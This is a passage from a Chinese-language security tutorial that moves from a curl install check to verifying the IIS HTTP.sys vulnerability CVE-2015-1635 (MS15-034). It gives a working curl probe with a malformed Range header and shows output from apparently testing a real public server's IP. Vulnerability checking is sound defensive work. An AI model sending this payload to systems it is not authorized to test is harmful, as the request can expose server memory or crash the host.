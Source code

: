 
5 打开`CMD`(windows系统的命令行工具)，然后输入 `curl –help` ，如果显示如下， 就代表成功了。

```
Usage: curl [options...] <url>
 -d, --data <data>   HTTP POST data
 -f, --fail          Fail silently (no output at all) on HTTP errors
 -h, --help <category> Get help for commands
 -i, --include       Include protocol response headers in the output
 -o, --output <file> Write to file instead of stdout
 -O, --remote-name   Write output to a file named as the remote file
 -s, --silent        Silent mode
 -T, --upload-file <file> Transfer local FILE to destination
 -u, --user <user:password> Server user and password
 -A, --user-agent <name> Send User-Agent <name> to server
 -v, --verbose       Make the operation more talkative
 -V, --version       Show version number and quit

This is not the full help, this menu is stripped into categories.
Use "--help category" to get an overview of all categories.
For all options use the manual or "--help all".
```

### 其他

`HTTPie`是使用Python实现的HTTP命令行工具，可以理解为curl的Python版本。

## HTTP.SYS远程代码执行漏洞验证

首先漏洞编号：CVE-2015-1635（MS15-034 ）

远程执行代码漏洞存在于 HTTP 协议堆栈 (HTTP.sys) 中，当 HTTP.sys 未正确分析经特殊设计的 HTTP 请求时会导致此漏洞。 成功利用此漏洞的攻击者可以在系统帐户的上下文中执行任意代码。

利用HTTP.sys的安全漏洞，攻击者只需要发送恶意的http请求数据包，就可能远程读取IIS服务器的内存数据，或使服务器系统蓝屏崩溃。

主要影响了包括Windows 7、Windows Server 2008 R2、Windows 8、Windows Server 2012、Windows 8.1 和 Windows Server 2012 R2在内的主流服务器操作系统。

使用以下命令：

```
//IP 替换为真实的IP地址
curl -v IP -H "Host:irrelevant" -H "Range: bytes=0-18446744073709551615"
```

输出内容中返回`HTTP/1.1 416 Requested Range Not Satisfiable`,漏洞存在！

```
 Trying 125.46.78.164:8010...
 Connected to 125.46.78.164 (125.46.78.164) port 8010 (#0)
 GET /Base/Css/BasePage.css HTTP/1.1
 Host:irrelevant
 User-Agent: curl/7.74.0
 Accept: */*
 Range: bytes=0-18446744073709551615

 Mark bundle as not supporting multiuse

 HTTP/1.1 416 Requested Range Not Satisfiable
 Content-Type: text/css
 Last-Modified: Mon, 09 Sep 2019 02:41:02 GMT
 Accept-Ranges: bytes
 ETag: "0b3ed4b866d51:0"
 Server: Microsoft-IIS/7.5
 X-Powered-By: ASP.NET
 Date: Thu, 17 Dec 2020 05:41:15 GMT
 Content-Length: 362
 Content-Range: bytes */1906
```